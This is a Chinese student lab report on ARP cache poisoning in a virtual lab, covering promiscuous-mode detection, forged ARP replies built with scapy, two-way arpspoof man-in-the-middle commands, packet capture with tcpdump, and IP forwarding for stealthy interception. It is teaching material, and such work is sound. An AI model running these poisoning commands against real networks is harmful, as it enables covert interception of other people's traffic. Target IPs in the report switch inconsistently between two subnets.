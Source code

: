 # chap0x04实验报告

-----

## 实验内容
- [x] 检测局域网中的异常终端
- [x] 手工单步“毒化”目标主机的 ARP 缓存
- [x] 使用自动化工具完成ARP投毒劫持实验
- [ ] 基于scapy编写ARP投毒劫持工具

### 实验过程
#### 实验环境搭建
* 实验主机
    * Kali-Attackter-1  
    * Kali-victim-1 
    * debian-gw
* 实验拓扑图  
![](imgs/structure.png) 
* 在攻击者主机上提前安装好`scapy`
```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
``` 
#### 实验一 检测局域网中的异常终端
`异常终端`：本实验中指的是开了混杂模式的主机  ，混杂模式指是指一台机器能够接收所有经过它的数据流，而不论其目的地址是否是他。
```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```  
![](imgs/checkpromisc.png)  
```bash
# 在攻击者主机上开启 scapy
sudo scapy
pkt = promiscping("172.16.111.102")
```
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
```
![](imgs/promisc_on.png)
```bash
# 再次回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```
两次输出结果如下图：  
![](imgs/promisc_on&off_pktping_cmp.png)  

#### 实验二 手工单步“毒化”目标主机的ARP缓存
以下代码在攻击者主机上的scapy交互模式终端下执行
```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:0f:4c:77
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:0f:4c:77
#      psrc= 172.16.111.110
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
按照课件的办法：
```bash
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
发现是不能毒化arp缓存表的，会出现以下情况：  
![](imgs/ppt_arp_gwchange.png)   
添加以太网头可以解决上面的问题：  
```bash
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
![](imgs/arp_gwchenge_success.png)  

回到攻击者主机,恢复arp缓存表：  
```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e8:c0:ff", pdst="172.16.111.102", hwdst="08:00:27:74:ac:67")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e8:c0:ff", psrc="172.16.111.102", hwsrc="08:00:27:74:ac:67")
sendp(restorepkt2, count=100, inter=0.2)
```
在受害者主机上查看arp缓存表：
```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](imgs/gw_reset.png)

#### 实验三 使用自动化工具完成ARP投毒劫持实验

投毒前，查看Kali-Victim的arp缓存表：  
![](imgs/auto_arp_kalivic.png)
查看网关Debian-gw的arp缓存表：
![](imgs/auto_arp_debiangw.png)

投毒：
* 欺骗Kali-victim-1(172.16.111.102)说我Kali-Attackter-1(172.16.111.110)是Debian-gw（172.16.111.1）
```bash
root@kali:~# arpspoof -i eth0 -t 172.16.111.102 172.16.111.1
```
* 欺骗Debian-gw（172.16.111.1）说我Kali-Attackter-1(172.16.111.110)是Kali-victim-1(172.16.111.102)

```bash
root@kali:~# arpspoof -i eth0 -t 172.16.111.1 172.16.111.102
```

再次查看Kali-victim-1和debian-gw的arp缓存表：  
![](imgs/auto_kalivic_gwchange.png)  
* 从上图可以看到Kali-Attackter成功毒化了Kali-victim-1的arp缓存表，将Debian-gw的Mac地址换成了Kali-Attackter的Mac地址。
![](imgs/auto_debiangw_kalivicchange.png)  
* 从上图可以看到Kali-Attackter成功毒化了Debian-gw的arp缓存表，将Kali-victim-1的Mac地址换成了Kali-Attackter的Mac地址。

尝试抓包：

```bash
root@kali:~# tcpdump -i eth0 -w /home/kali/Desktop/test.pcap
```
![](imgs/tcpdump_test.png)
在桌面上我们可以看到生成的test.pcap,用系统自带的解析软件可以打开分析。
![](imgs/test_pcap.png)
观察发出请求主机上的命令行，发现并没有成功的通信，说明这个毒化是不完整的，能够抓到包，但是不能还原原有的正常通信，只有挂起（ctrl+z）或者结束欺骗（ctrl+c）以后才能正常上网：
![](imgs/ping_failure.png)  
在投毒前打开Kali-Attackter的流量转发，目的是让攻击者（中间人）转发收到的包到真正的目的地址，攻击者成为真正的中间人：
```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
```
![](imgs/capture_success.png)
### 实验思考
* 攻击者通过改变受害者arp缓存表里的默认网关Mac地址，实现arp投毒，所有需要经过默认网关的数据流量都会传输到攻击者主机。
* 通过kali-arpspoof工具进行中间人arp投毒（自动化投毒工具），可以让被攻击主机不能正常访问网络，且相关的访问请求都可以被攻击主机捕获，使用ctrl+z挂起欺骗进程，使用ctrl+c终止欺骗进程，此时arp缓存表很快会自动恢复，被攻击主机可以正常访问网络。
![](imgs/q1.png)
* 通过kali-arpspoof工具进行中间人arp投毒（自动化投毒工具），攻击者提前开启流量转发，可以做到隐秘的截取信息不容易被检测出来，在投毒前执行以下代码段：
```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
```
### 参考资料
[Linux实现的ARP缓存老化时间原理解析](https://developer.aliyun.com/article/494130?spm=a2c6h.13813017.content3.1.707863e8MIWhJn)  
[韩涛同学的实验报告](https://github.com/CUCCS/2022-ns-public-HantaoGG/tree/chap0x04/chap0x04#%E5%AE%9E%E9%AA%8C2-%E6%89%8B%E5%B7%A5%E5%8D%95%E6%AD%A5%E6%AF%92%E5%8C%96%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BAarp%E7%BC%93%E5%AD%98)  
[arpspoof使用教程](https://blog.csdn.net/qq_54780911/article/details/121891827)  
[arp流量转发实验](https://blog.csdn.net/fengzhantian/article/details/81346552)  